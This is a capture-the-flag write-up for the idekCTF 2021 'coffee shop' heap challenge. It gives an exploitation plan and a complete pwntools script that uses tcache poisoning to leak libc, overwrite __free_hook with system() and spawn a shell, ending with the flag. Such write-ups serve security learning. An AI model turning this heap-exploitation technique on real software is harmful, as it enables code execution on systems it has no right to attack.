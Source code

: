 ```yaml
---
title: coffee shop
date: 2021-12-11
categories: [pwn]
tags: [idek2021]
toc: false
---
```


#### Notes:
- Upon initial inspection we see that all mitigations are enabled (Full RELRO, canary, NX, PIE)
- Looking at the code we can see that there is a classic menu that gives us the options to allocate, edit, free, and view heap memory
- There are other options such as using the "manager" data, but I aimed for exploiting it via tcache poisoning using the above menu options
- The first three options are irrelevent since we're not solving it using the "manager" data. This led me to wonder if I solved it the intended way? Probably not

#### Behavior:
- The program lets us work with the menu in a while(true) loop, which means we can do many malloc/free/edit sequences
- We can only have up to 9 slots in the "complaint" box though, so this means we need to be mindful of that when writing the exploit. It should be plenty though

#### Caveats: 
- We can only have up to 9 slots in the "complaint" box though, so this means we need to be mindful of that when writing the exploit. It should be plenty though

#### Plan:
- Allocate some 0x60 size blocks, fill their data with '/bin/sh' for later use and free them to the tcache bin
- Using the third allocation with a size of 0x4ff, free that and view the fwd pointer from the unsorted bin -> leak libc
- Calculate offsets to __free_hook and system()
- Edit tcache_idx[1]'s that we free'd earlier to __free_hook
- Malloc twice to reclaim free'd memory and overwrite with system()
- Now when free() gets called system('/bin/sh') gets called instead

#### main():

![Snippet of main()](/assets/img/idekctf2021/coffeeshop/main.png)

#### file_complaint():

![file_complaint()](/assets/img/idekctf2021/coffeeshop/allocate.png)

#### edit_complaint():

![edit_complaint()](/assets/img/idekctf2021/coffeeshop/edit.png)

#### free_complaint():

![free_complaint()](/assets/img/idekctf2021/coffeeshop/free.png)

#### view_complaint():

![view_complaint()](/assets/img/idekctf2021/coffeeshop/view.png)

#### PoC:

```python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host coffee-shop.chal.idek.team --port 1337 coffee_shop
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('coffee_shop')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'coffee-shop.chal.idek.team'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#b *file_complaint+134
#b *revert_complaint+51
b edit_complaint
#b view_complaint
#b get_manager
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

def file_complaint(size, content):
    io.sendline('4')
    io.sendline(str(size))
    io.sendline(content)

def free_complaint(idx):
    io.sendline('5')
    io.sendline(str(idx))

def edit_complaint(idx, content):
    io.sendline('6')
    io.sendline(str(idx))
    io.sendline(content)

def view_complaint(idx):
    io.sendline('7')
    io.sendline(str(idx))


file_complaint(0x60, b'/bin/sh')  # 0
file_complaint(0x60, b'/bin/sh')  # 1
file_complaint(0x4ff, b'/bin/sh') # 2
file_complaint(0x60, b'/bin/sh')  # 3
file_complaint(0x60, b'/bin/sh')  # 4

free_complaint(0) 
free_complaint(1)

# leak libc from unsorted bin
io.clean()
free_complaint(2)
io.clean()
view_complaint(2)
io.recvuntil(b'ID: ')

leak = int.from_bytes(io.recvline().rstrip(), 'little')
print("LEAK:    ", hex(leak))
libc_base = leak - 0x1c6be0
libc_base = leak - 0x1ebbe0
print("BASE:    ", hex(libc_base))
system = libc_base + 0x055410
free_hook = libc_base + 0x1eeb28
print("SYSTEM:    ", hex(system))
print("FREEHOOK:    ", hex(free_hook))

edit_complaint(1, p64(free_hook))
file_complaint(0x60, b'lmao')
file_complaint(0x60, p64(system))

free_complaint(3)

io.interactive()
#idek{4Nd_7h4t's_h0W_Y0u_3xpl01t_4_k3rn3l_u4f}

```
